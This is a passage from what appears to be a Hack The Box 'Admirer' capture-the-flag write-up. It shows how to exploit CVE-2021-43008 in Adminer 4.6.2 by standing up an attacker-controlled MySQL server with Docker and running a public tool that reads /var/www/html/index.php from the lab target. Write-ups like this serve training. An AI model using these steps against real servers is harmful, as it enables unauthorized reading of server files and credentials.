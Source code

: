 ```php
  ?>
```

After a bit I was not able to execute a thing... I found `utility-scripts/adminer.php` though, I guess we can try to connect to the databases now.

## Adminer

Well nope, we cant get access to the databases. At least the Adminer version: 4.6.2 is vulnerable to CVE-2021-43008. Basically you can get access to files of the server connecting the Adminer panel to a SQL server you control.

Let's prepare the environment, using Docker I started a server in my machine:

```yaml
version: '3.3'
services:
  db:
    image: mysql:5.7
    environment:
      MYSQL_DATABASE: 'lfr_sink_db'
      # So you don't have to use root, but you can if you like
      MYSQL_USER: 'user'
      # You can use whatever password you like
      MYSQL_PASSWORD: 'password'
      # Password for root access
      MYSQL_ROOT_PASSWORD: 'password'
    ports:
      # <Port exposed> : < MySQL Port running inside container>
      - '3306:3306'
    expose:
      # Opens port 3306 on the container
      - '3306'

```

I had to connect to it through Adminer and create a new table called `lfr_sink_table` to make sure the tool I want to use (More on it later) works properly:

```sql
CREATE TABLE IF NOT EXISTS lfr_sink_table (a varchar(255));
```

I found [this tool](https://github.com/p0dalirius/CVE-2021-43008-AdminerRead) to ease the exploitation. I noticed that I was not able to access all files I want BUT I can retrieve files from the webserver itself:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Admirer/CVE-2021-43008-AdminerRead]
└─$ python3 AdminerRead.py -t http://10.10.10.187/utility-scripts/adminer.php -I 10.10.14.55 -P 3306 -u root -p password -f /var/www/html/index.php
     _       _           _                 ____                _
    / \   __| |_ __ ___ (_)_ __   ___ _ __|  _ \ ___  __ _  __| |
   / _ \ / _` | '_ ` _ \| | '_ \ / _ \ '__| |_) / _ \/ _` |/ _` |
  / ___ \ (_| | | | | | | | | | |  __/ |  |  _ <  __/ (_| | (_| |
 /_/   \_\__,_|_| |_| |_|_|_| |_|\___|_|  |_| \_\___|\__,_|\__,_|   v1.1.0
                                                                 
[>] Remote Adminer version : v4.6.2

[+] (  4.52 kB) /var/www/html/index.php
```
